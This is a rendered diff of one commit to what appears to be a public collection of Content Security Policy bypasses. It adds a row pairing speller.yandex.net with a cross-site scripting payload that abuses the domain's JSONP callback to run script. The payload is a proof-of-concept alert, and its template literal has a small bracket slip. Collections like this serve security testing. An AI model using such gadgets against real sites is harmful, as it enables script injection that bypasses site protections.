

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
add speller.yandex.net

```diff
--- a/data.tsv
+++ b/data.tsv
+row 158: speller.yandex.net <script src="https://speller.yandex.net/services/spellservice.json/checkText?text=123&callback=alert(`full XSS on ${document.location`));//"></script>
```
